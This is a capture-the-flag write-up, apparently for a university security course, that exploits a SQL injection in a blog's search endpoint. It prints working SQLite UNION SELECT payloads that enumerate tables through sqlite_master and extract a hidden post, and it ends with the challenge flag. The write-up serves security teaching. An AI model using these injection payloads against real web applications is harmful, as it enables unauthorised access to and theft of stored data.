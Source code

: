 # Challenge `Wow, it can't be more juicy than this!` writeup

- Vulnerability:
  - _Endpoint has a **sql** vulnerability_
- Where:
  - _`/?search=` endpoint_
- Impact:
  - _Allows to **obtain the posts content** without having the authority to by making a sql injection in the server's search bar_

## Steps to reproduce

First we need to open a session in the server `http://mustard.stt.rnl.tecnico.ulisboa.pt:22261`. After the session is established we will can now start plotting what to do.

Since our objective is to obtain the secret post hidden content, we need to find a way to make the server return the all the posts content. To do this, we need to also know what name the table has, and what type of query is being made.
As usual, we will start by making a bad input to see what the server will return. We will use the following payload:

```sql
' badInput
```

After sending the payload, the server returned the following error message:

```sql
[SQL: SELECT id, title, content FROM blog_post WHERE title LIKE '%'badInput%' OR content LIKE '%'badInput%']
```

So now, we know that there is a table called `blog_post` and that the query is a `SELECT` query. We also know that the server is using the `LIKE` operator to search for the input in the title and content fields.

With this information in mind, we can make a `UNION SELECT` query to find the name of the table we need that has a similar data type (id, title, content). The payload used was:

```sql
_' AND id=1 UNION SELECT 1,tbl_name,3 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'--
```

After exectuting our malicious query, the server returned three table names: `blog_post`, `user` and `secret_blog_post`. We can conclude that the table we need is `secret_blog_post`.


Now that we know the name of the table, we can make a `UNION SELECT` query to find the content of the secret post. The payload used was:

```sql
_' AND id=1 UNION SELECT id,title,content FROM secret_blog_post--
```

Since we now used the `secret_blog_post` table, the server returned all the information we needed:

```
Reminder
In case I forget my password is: SSof{All_tables_are_vulnerable_with_UNION_constructor}
```

Now, we have found the **hidden blog post** and can access the secret, getting the `flag`.